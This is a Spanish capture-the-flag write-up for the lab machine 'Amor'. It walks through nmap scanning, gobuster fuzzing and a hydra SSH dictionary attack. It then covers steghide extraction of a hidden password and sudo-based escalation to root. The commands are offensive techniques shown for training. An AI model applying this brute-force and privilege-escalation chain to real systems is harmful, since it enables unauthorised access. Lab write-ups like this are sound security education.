



# Amor
## Reconocimiento
En primer lugar comienzo por lanzar un escaneo de puertos para comenzar a estudiar la superficie de ataque y ver que posibles ángulos hay para vulnerar la máquina.
```shell
❯ nmap -p 0-65535 --open -T5 -A -sT -Pn -n 172.17.0.2 -oX nmapScan.xml && xsltproc nmapScan.xml -o nmapScan.html && open nmapScan.html &>/dev/null & disown
```



El puerto 22 está sirviendo SSH y hay un servidor HTTP funcionando en el 80, a falta de más info voy a echar un ojo a la página



Se trata de una página corporativa con registros o "noticias" de lo ocurrido en la empresa, hay un par de entradas interesantes como un aviso de contraseña débil (posible ataque diccionario) y otra que está firmada por una tal Carlota, del departamento de ciberseguridad.
El siguiente paso es lanzar un fuzzeo para identificar rutas interesantes o recursos que pueda aprovechar para explotar.
```shell
❯ gobuster dir -u 'http://172.17.0.2/' -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,js,txt,db,config,xml,py,bak,conf,java,jar,python
```
## Explotación
El fuzzeo no revela nada de interesante, así que se me ocurre probar a atacar SSH mediante diccionario con la información recavada en las entradas de la página.
Pruebo a hacer un ataque diccionario al usuario carlota con `hydra`.
```shell
❯ hydra -L juan.txt -P /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt -s 22 -f ssh://172.17.0.2 -t 64
```


Doy con la clave gracia al ataque diccionario y ya puedo entrar como carlota
## Post explotación
Lo primero es sanitizar la shell
```
export SHELL=bas
export TERM=xterm
export TERM=xterm-256color
source /etc/skel/.bashrc
bash
```

Nada más navegar un poco veo que hay un directorio con una imagen de vacaciones, tras comprobar que la máquina tiene python, levanto un servidor HTTP para servir el archivo y llevarlo a mi máquina
```shell
carlota@70e2decfb750:~/Desktop/fotos/vacaciones$ ls
imagen.jpg
carlota@70e2decfb750:~/Desktop/fotos/vacaciones$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
172.17.0.1 - - [17/Sep/2025 14:54:33] "GET /imagen.jpg HTTP/1.1" 200 -
```
Mientras tanto, en mi consola...
```shell
❯ curl -O http://172.17.0.2:8000/imagen.jpg
```
Se trata de una imagen de una pareja, aparentemente en una boda.



Usando `steghide` para revelar el contenido oculto en la imagen saco un string que está encodeado en base64, así que lo decodifico y obtengo una contraseña con la que pivotar al usuario `oscar`.

 Una vez siendo oscar, al lanzar `sudo -l` y con una búsqueda rápida en GTFObins podemos escalar sin problemas a `root`.

